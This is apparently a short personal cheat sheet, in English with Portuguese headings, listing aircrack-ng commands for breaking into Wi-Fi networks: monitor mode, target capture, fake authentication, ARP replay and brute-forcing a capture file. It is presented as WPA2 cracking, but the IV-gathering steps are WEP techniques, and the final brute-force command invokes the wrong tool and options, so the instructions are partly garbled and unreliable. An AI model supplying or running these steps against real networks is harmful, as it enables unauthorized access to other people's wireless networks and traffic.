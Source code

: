 # Cracking WPA2

This is a simple file for remind me some wpa2 cracking instructions.

### Ligar monitoramento
	sudo airmon-ng start <interface>

### Selecionar um alvo
	sudo airodump-ng <monitor>

### Pegar pacotes
	sudo airodump-ng <monitor> -c <canal> --bssid <bssid> -w <nomedoarquivo>

### Injetar mac
	aireplay-ng -1 10 -a <bssid-ap> <monitor>

Lembre de pegar o mac injetado

### Replicar requests de ARP para pegar mais IVs
    aireplay-ng -3 -b <bssid do ap> -h <nssid injetado> <mon>

### Bruteforce no .cap
    aireplay-ng -a 1 -b <bssid do ap> <.cap>

